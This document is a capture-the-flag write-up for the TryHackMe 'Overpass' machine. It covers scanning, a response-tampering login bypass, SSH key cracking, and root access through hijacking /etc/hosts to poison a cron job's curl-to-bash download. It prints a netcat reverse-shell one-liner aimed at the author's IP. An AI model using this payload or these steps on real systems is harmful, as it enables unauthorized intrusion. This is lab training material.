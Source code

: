 # Overpass
### From Tryhackme

![image](https://user-images.githubusercontent.com/56447720/152143895-b8522100-61fa-42e1-8abb-306b80561bd4.png)

## Port Scan

![image](https://user-images.githubusercontent.com/56447720/152144739-6ae3e614-a68d-4bd7-9eca-884fcdea459f.png)

## Directory Scan

![image](https://user-images.githubusercontent.com/56447720/152144710-e6bb61eb-a1b5-408d-8f2e-5b107eb93395.png)

## Web Exploitation

- After seeing all the directories, `/admin` was most intresting to me
- Looking at the source code I found some intresting `.js` files

![image](https://user-images.githubusercontent.com/56447720/152147048-d4bc52bb-70d6-4af0-92b3-fba0257ca596.png)

- `login.js`

![image](https://user-images.githubusercontent.com/56447720/152147124-ee118f84-0d94-45ae-879c-de24d58c099c.png)

- This piece of code has an vulnerability, it checks the response of the browser and if it doesn't incorrect credentials,
it redirect us to the `/admin` page

### get admin privilege

- Intercept login request with burp suite and change the response to get admin panel
- Right click on the reques and > `Do intercept > Request to this response`

- This is the respose we get

![image](https://user-images.githubusercontent.com/56447720/152158989-93c0e69f-9364-4bdb-a243-64e95de1ba45.png)

- Updated response

![image](https://user-images.githubusercontent.com/56447720/152159958-e3988a42-f46f-475d-be48-e5134413fb09.png)

- Admin homepage

![image](https://user-images.githubusercontent.com/56447720/152148206-19006b3b-36a2-45ea-a01b-b5238cf6dd15.png)


## User Shell

- we got username from admin panel, I've used john to crack the ssh password

![image](https://user-images.githubusercontent.com/56447720/152148911-efbb5b6e-b5af-4542-bb3e-376f175f869f.png)

- We successfully got a shell

![image](https://user-images.githubusercontent.com/56447720/152149341-ed01b623-5068-40aa-b12b-c30461039446.png)

## Root shell

- I've used python server to get `linpeas` into the machine

![image](https://user-images.githubusercontent.com/56447720/152151534-86421dbc-71e7-46f0-9c42-2be09fe27284.png)
![image](https://user-images.githubusercontent.com/56447720/152151754-b3fe921b-929d-4572-83c0-0bc6247d1c09.png)

- We have permission to write in `/etc/hosts`

![image](https://user-images.githubusercontent.com/56447720/152152218-a5b9d408-6b3a-4faa-8f50-a7cc36630dfe.png)

- There's a cronjob running on root service which basicallay uses curl and pipe it into bash
- We are going to change the content of `/etc/hosts` , adding our ip as `overpass.thm`

![image](https://user-images.githubusercontent.com/56447720/152152639-020becb3-8d74-4c13-a70d-5b2bdb1935e5.png)

- First create files in your localhost

![image](https://user-images.githubusercontent.com/56447720/152157538-02d62286-55f3-4714-9dd1-d0a77ce6c4fd.png)

- Add a payload in `buildscript.sh`

```bash
└─$ cat downloads/src/buildscript.sh 
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.1.250 4444 >/tmp/f
```
- Add your ip and port `[ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc (IP) (PORT) >/tmp/f ]`

- Start a python3 server

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.120.231 - - [02/Feb/2022 18:17:05] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -

```

- Start netcat listener 
- Wait around 1 minute to get root shell

![image](https://user-images.githubusercontent.com/56447720/152157330-44f27329-9a6c-4b35-acb7-47c158726fdb.png)

- Submit the user and root flag

![image](https://user-images.githubusercontent.com/56447720/152157784-02ccbdd4-69f3-4b10-a99e-9ae361faae07.png)

